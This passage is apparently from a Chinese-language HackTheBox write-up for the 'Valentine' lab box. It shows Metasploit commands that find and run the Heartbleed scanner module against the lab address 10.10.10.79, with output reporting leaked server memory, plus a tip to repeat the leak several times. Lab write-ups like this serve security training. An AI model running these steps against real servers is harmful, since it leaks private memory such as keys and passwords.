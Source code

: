 ## Heartbleed



### MSF

利用MSF进行漏洞利用

```shell
┌──(xavier㉿kali)-[~]
└─$ msfconsole                                                                              
msf6 > search heartbleed

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/server/openssl_heartbeat_client_memory  2014-04-07       normal  No     OpenSSL Heartbeat (Heartbleed) Client Memory Exposure
   1  auxiliary/scanner/ssl/openssl_heartbleed          2014-04-07       normal  Yes    OpenSSL Heartbeat (Heartbleed) Information Leak


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/ssl/openssl_heartbleed

msf6 > use auxiliary/scanner/ssl/openssl_heartbleed 
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 10.10.10.79
RHOSTS => 10.10.10.79
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > run

[+] 10.10.10.79:443       - Heartbeat response with leak, 65535 bytes
[*] 10.10.10.79:443       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set VERBOSE True
VERBOSE => true
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > exploit

[*] 10.10.10.79:443       - Leaking heartbeat response #1
[*] 10.10.10.79:443       - Sending Client Hello...
[*] 10.10.10.79:443       - SSL record #1:

```

![image-20230429155205097](/resource/012-Valentine.assets/image-20230429155205097.png)

![image-20230429155239318](/resource/012-Valentine.assets/image-20230429155239318.png)

![image-20230429155329208](/resource/012-Valentine.assets/image-20230429155329208.png)

心脏滴血是一个信息泄露漏洞，每次泄露的信息并不一样，所以需要多执行几次。
